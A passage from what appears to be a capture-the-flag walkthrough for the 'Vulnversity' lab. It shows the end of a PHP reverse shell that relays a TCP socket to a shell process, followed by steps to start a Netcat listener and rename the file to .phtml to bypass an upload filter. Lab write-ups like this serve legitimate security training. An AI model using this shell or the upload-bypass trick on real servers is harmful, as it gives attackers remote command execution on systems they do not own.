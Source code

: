 ```php
	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

*   start a Netcat listener

    <img src="/assets/images/thm/Vulnversity/Untitled 12.png" alt="Untitled" data-size="original">
* change the IP and the port number in the reverse shell to your IP and listening port
*   change the file extension to phtml so we can upload it
